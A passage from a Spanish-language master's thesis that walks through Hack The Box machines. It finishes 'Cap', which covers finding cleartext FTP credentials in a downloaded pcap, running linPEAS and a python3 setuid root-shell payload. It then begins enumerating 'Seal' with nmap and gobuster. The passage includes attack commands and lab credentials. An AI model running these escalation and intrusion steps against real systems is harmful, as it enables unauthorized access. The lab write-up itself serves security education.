    \subfloat[\centering \textit{Cap: Network Status (\texttt{http://10.10.10.245/netstat})}]{{
\includegraphics[width=0.80\textwidth]{images/machines/cap/web-network.png} }}
    \caption{Cap: Capturas de la web}
    \label{fig:cap}
\end{figure}

Por último, el apartado Security Snapshot (figura \ref{fig:cap-snapshot}) nos permite descargar un paquete \texttt{.pcap}. Al clicar el botón \textit{Download}, nos bajamos un archivo llamado \textit{16.pcap}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/pcaps/16.pcap}{Archivo \textit{16.pcap}}}. Nombre que coincide con la \acrshort{url}, ya que esta es \texttt{/data/16}. Investigamos el paquete con \textit{Wireshark}\cite{wireshark} (figura \ref{fig:cap-wire-16}).\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.40\textwidth]{images/machines/cap/web-sec-snapshots.png}
    \caption{Cap: Security Snapshot (\texttt{http://10.10.10.245/data/16})}
    \label{fig:cap-snapshot}
\end{figure}

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/machines/cap/wireshark-16.png}
    \caption{Archivo \textit{16.pcap} en \textit{Wireshark}}
    \label{fig:cap-wire-16}
\end{figure}

Tras investigar el archivo \texttt{16.pcap}, no se ha encontrado nada relevante. Tampoco se ha encontrado nada sobre los servicios \acrshort{ssh} y \acrshort{ftp}.\\

Al no encontrar nada en este paquete, se ha decidido probar con la \acrshort{url} \texttt{/data/\{?\}}. Se ha probado con los valores `0`, `1` y `1000`. En los casos `0` y `1` hemos conseguido entrar a \texttt{/data/0} y \texttt{/data/1} descargar los paquetes \texttt{0.pcap}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/pcaps/0.pcap}{Archivo \textit{0.pcap}}} y \texttt{1.pcap}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/pcaps/1.pcap}{Archivo \textit{1.pcap}}}, pero con el valor `1000` hemos sido redirigidos a la página principal.\\

Se ha decidido empezar por orden, y empezar revisando primero \texttt{0.pcap}. Al revisar el paquete, encontramos que en este hay movimiento en los puertos 21 y 22. Además, encontramos un inicio de sesión exitoso en el servidor \acrshort{ftp}. Como se ve en la figura \ref{fig:cap-wire-0}, se encuentran las credenciales \textit{nathan:Buck3tH4TF0RM3!}.\\
\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/machines/cap/wireshark-0.png}
    \caption{Archivo \textit{0.pcap} en \textit{Wireshark}}
    \label{fig:cap-wire-0}
\end{figure}

Con las credenciales obtenidas, entramos al servidor \acrshort{ftp}, y, como se ve en la figura \ref{fig:cap-user-flag}, obtenemos el flag de usuario.
\begin{figure}[h]
    \centering
    
\includegraphics[width=0.8\textwidth]{images/machines/cap/user-flag.png}
    \caption{Acceso al servidor \acrshort{ftp} y obtención del flag de usuario}
    \label{fig:cap-user-flag}
\end{figure}

\subsection{Escalada de Privilegios}

Lo primero que se decide hacer es intentar acceder al \acrshort{ssh} con las credenciales anteriores. Conseguimos entrar.\\

Primero, intentamos ver si el usuario \textit{nathan} puede ejecutar algo como súper-usuario. Vemos que \textit{nathan} no puede usar \texttt{sudo} (figura \ref{fig:cap-nathan-sudo}). Para encontrar si el usuario \textit{nathan} puede ejecutar algún comando con permisos de súper-usuario, se ha utilizado la herramienta \textit{linPEAS}\cite{peas}. Para poder utilizar \textit{linPEAS}, tenemos que tener el script en la máquina víctima. Para pasar el script de nuestro host a la máquina, se ha utilizado el siguiente comando:
\begin{lstlisting}[language=bash]
scp ./linpeas.sh nathan@10.10.10.245:/home/nathan
\end{lstlisting}

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.5\textwidth]{images/machines/cap/nathan-sudo.png}
    \caption{Login \acrshort{ssh} con \textit{nathan} y comprobación de \texttt{sudo}}
    \label{fig:cap-nathan-sudo}
\end{figure}

Una vez subido el script, lo ejecutamos con:
\begin{lstlisting}[language=bash]
./linpeas.sh -a > 03_linpeas.txt
\end{lstlisting}

El flag \texttt{-a} es utilizado para revisar todos los checks posibles; es recomendado en la realización de un \acrshort{CTF}.\\

Como resultado\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/cap/03_linpeas.txt}{Output de \textit{03\_linpeas.txt}}} vemos que \textit{nathan} puede utilizar \texttt{/usr/bin/python3.8} como \textit{root} (figura \ref{fig:cap-linpeas}).\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/machines/cap/linpeas.png}
    \caption{Resultado \textit{linPEAS}}
    \label{fig:cap-linpeas}
\end{figure}

Se ha investigado sobre posibles payloads y al final se ha decidido usar el siguiente para ganar acceso como \textit{root} (figura \ref{fig:cap-root}).
\begin{lstlisting}[language=bash]
python3 -c "import os; os.setuid(0); os.system('/bin/bash -i')"
\end{lstlisting}

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.8\textwidth]{images/machines/cap/root.png}
    \caption{Escalada de privilegios y obtención de \textit{root}}
    \label{fig:cap-root}
\end{figure}

\newpage

\subsection{Resumen}

En esta máquina hemos encontrado varias vulnerabilidades o malas prácticas. Por ejemplo, se han encontrado información sensible sobre la red y los además de los puertos abiertos en la máquina (figura \ref{fig:cap}). También se ha encontrado que, por una característica de la aplicación, te puedes bajar paquetes de esnifado de red (archivos \texttt{.pcap}). Esto sumado a que hay un servidor \acrshort{ftp} que no cifra las comunicaciones a la hora de iniciar sesión, nos ha podido encontrar las credenciales en claro en uno de los paquetes descargados. Esto nos ha permitido conectarnos al servidor \acrshort{ftp}. Además, se ha hecho uso de malas políticas de gestión de contraseñas y, se ha podido acceder al servicio \acrshort{ssh} con las mismas credenciales.\\

Una vez hemos entrado en la máquina vía \acrshort{ssh}, hemos podido subir un archivo (\texttt{linpeas.sh}) que nos ha permitido escanear la máquina, obteniendo así información sobre los permisos que tiene el usuario \textit{nathan}. Tras el escaneo, se ha encontrado que se puede ejecutar \textit{Python 3.8} como súper-usuario, lo cual, con un sencillo payload, nos permite acceder a la máquina como \textit{root}.

    \newpage
    \section{Máquina 2: \textit{Seal}}
    Esta sección se realizará la máquina de \acrlong{HTB} llamada \textit{Seal}\cite{seal}. \textit{Seal} es una máquina de dificultad ``media``.

\subsection{Reconocimiento}
En la fase de reconocimiento hemos encontrado toda la información necesaria de la máquina en su página principal\cite{seal}. Se ha encontrado que es una máquina \textit{Linux} y que su \acrshort{ip} es \texttt{10.10.10.250}.\\

Dado que es un \acrshort{CTF}, no se ha visto la necesidad de profundizar más en esta fase.

\subsection{Enumeración}
\subsubsection{Puerto 8080}
Al igual que con la máquina anterior, l primer paso realizado en la enumeración es usar la herramienta \textit{Nmap}\cite{nmap}. Para ello se ha utilizado el siguiente comando.

\begin{lstlisting}[language=bash]
nmap -p- -o 00_nmap_ports.txt 10.10.10.245
\end{lstlisting}

El argumento \texttt{-p-} se ha utilizado para hacer un escaneo de todos los puertos, y el \texttt{-o} para guardar la salida en un archivo llamado \textit{00\_nmap\_ports.txt}.\\

Tras la ejecución\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/00_nmap_ports.txt}{Output de \textit{00\_nmap\_ports.txt}}} se han encontrado los puertos 22/\acrshort{tcp}, 443/\acrshort{tcp} y 8080/\acrshort{tcp}. El paso siguiente ha sido realizar un escaneo de nuevo con \textit{Nmap} pero esta vez para detectar los servicios y el sistema operativo. Para ello se ha utilizado el siguiente comando.

\begin{lstlisting}[language=bash]
sudo nmap -p 22,443,8080 -sS -sCV 10.10.10.250 -o 01_nmap_services.txt
\end{lstlisting}

Esta vez, el comando \texttt{-p} recibe los puertos obtenidos con el comando anterior, es decir, los puertos 22, 443 y 8080 \acrshort{tcp}. Se ha decidido hacer un escaneo de tipo \textit{Stealth}, ya que es la manera más rápida y popular para escanear en el protocolo TCP; para ello se ha utilizado el argumento \texttt{-sS}. Se ha utilizado el comando \texttt{-sCV} para obtener información sobre el servicio habilitado en el puerto (\texttt{-sV}) y para realizar el escaneo con los scripts por defecto de \textit{Nmap} (\texttt{-sC}). Por último, también se ha decidido guardar la salida del comando en un archivo (argumento \texttt{-o} llamado \textit{01\_nmap\_services}.txt.\\

Tras la ejecución\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/01_nmap_services.txt}{Output de \textit{01\_nmap\_services.txt}}} se ha encontrado que efectivamente, la máquina es un sistema \textit{Linux}, concretamente con el sistema operativo \textit{Ubuntu}. En el puerto 22/\acrshort{tcp} está levantado un servidor \acrshort{ssh}, está utilizando \textit{OpenSSH}\cite{openssh} versión 8.2p1. En el puerto 443/\acrshort{tcp} se ha encontrado desplegado un servidor \textit{Nginx}\cite{nginx} en la versión 1.18, además destaca  un \textit{commonName} con valor \texttt{seal.htb}. Por último, en el puerto 8080/\acrshort{tcp} un servidor \acrshort{http} proxy, de momento, se desconoce la tecnología o la versión.\\

Lo primero que se ha decidido hacer es investigar la web en el puerto 8080. Para ello, a la vez que se investigaba de manera manual, se ha utilizado la herramienta \textit{Gobuster}\cite{gobuster} para encontrar endpoints escondidos o no accesibles. Se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
gobuster dir -u http://10.10.10.250:8080 -w ~/Hacking/SecLists/Discovery/Web-Content/raft-medium-directories.txt --wildcard switch | anew 02_gobuster_8080.txt
\end{lstlisting}

Se ha elegido el argumento \texttt{dir} para realizar una búsqueda de directorios mediante fuerza bruta; el flag \texttt{-u} es el utilizado para pasar la \acrshort{url} que vamos  a escanear; el argumento \texttt{-w} se utiliza para pasarle a \textit{Gobuster} una lista de palabras para utilizar. En este caso se ha decidido usar la lista \textit{raft-medium-directories.txt} de \textit{SecLists}\cite{seclists}. El argumento \texttt{--wildcard switch} se ha introducido ya que la herramienta lo indicaba, dado que hay varias redirecciones en la \acrshort{url} principal. Por último, el resultado se ha decidido pasar a la herramienta \textit{anew}\cite{anew} porque también se ha realizado el mismo comando pero con la lista \textit{raft-medium-words.txt}.\\

En el resultado\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/02_gobuster_8080.txt}{Output de \textit{02\_gobuster\_8080.txt}}} se han encontrado muchas \acrshort{url}s con código \textit{401 - Unauthorized}, por eso se ha utilizado el siguiente comando para obtener todos los resultados cuyo código sea distinto a \textit{401}.
\begin{lstlisting}[language=bash]
cat 02_gobuster_8080.txt | grep -v -e "Status: 401" | sort
\end{lstlisting}

Se ha usado \textit{grep} para hacer una búsqueda, con los flags \texttt{-v} para que el comando devuelva los elementos que no coinciden con la expresión utilizada. El flag \texttt{-e} se utiliza para añadir la expresión a buscar, en este caso ``\textit{Satus: 401}``. Por último se ha utilizado \textit{sort} para ordenar la salida.\\

Se han encontrado las siguientes \acrshort{url}'s:
\begin{itemize}
    \item \texttt{/assets} (302 a \texttt{/assets/;jsessionid=node...} pero devuelve un \textit{403 - Forbbiden})
    \item \texttt{/register}
    \item \texttt{/signin}
\end{itemize}

Tras los resultados, se ha decidido entrar a la web, y se ha encontrado una página de login (figura \ref{fig:seal-8080-main}). En esa página se ha detectado que está corriendo un servicio llamado \textit{GitBucket}\cite{gitbucket}, que es un gestor de repositorios y control de versiones.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.70\textwidth]{images/machines/seal/main-page.png}
    \caption{Seal: 8080 Login (\texttt{http://10.10.10.250:8080})}
    \label{fig:seal-8080-main}
\end{figure}

En esta página se ha intentado entrar con usuarios y contraseñas débiles, como \textit{admin:admin} y \textit{admin:Passw0rd} entre otras. Como no ha habido éxito, se ha decidido crear un nuevo usuario \textit{hacker69:1234Botella} y un correo temporal creado con \textit{TempMail}\cite{tempmail} \textit{nejew65102@timevod.com}.\\

Al registrarnos, nos logeamos y encontramos una página principal con varios repositorios (figura \ref{fig:seal-8080-main-logged}).\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.70\textwidth]{images/machines/seal/main-logged.png}
    \caption{Seal: 8080 con sesión iniciada (\texttt{http://10.10.10.250:8080})}
    \label{fig:seal-8080-main-logged}
\end{figure}

Tras investigar un poco, detectamos que se está ejecutando un \textit{Apache Tomcat} en el puerto 443.\\

Investigando archivos, encontramos un archivo con código comentado dónde se pueden poner usuarios por defecto para el servidor de \textit{Tomcat} (figura \ref{fig:seal-tomcat-users}-a).\\

Al ser esto un repositorio de \textit{Git}, se ha investigado \textit{commits} anteriores (figura \ref{fig:seal-tomcat-users}-b), por si se puede encontrar código antiguo relevante. Casualmente, se encuentran las credenciales del usuario \textit{tomcat} (figura \ref{fig:seal-tomcat-users}-c).\\

\begin{figure}
    \centering
